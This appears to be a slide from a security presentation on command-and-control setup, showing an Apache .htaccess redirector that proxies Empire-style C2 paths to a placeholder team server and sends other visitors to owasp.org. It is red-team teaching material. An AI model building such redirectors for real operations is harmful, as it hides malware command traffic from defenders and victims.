

# C2 (apache redirector) cont.
root@0wasp.dk:~# nano /var/www/html/.htaccess

RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(admin/get.php|login/process.php|news.php)/?$ [NC]
RewriteRule ^.*$ http://[team-server-IP]%{REQUEST_URI} [P]
RewriteRule ^.*$ http://owasp.org/ [L,R=302]

https://github.com/infosecn1nja/e2modrewrite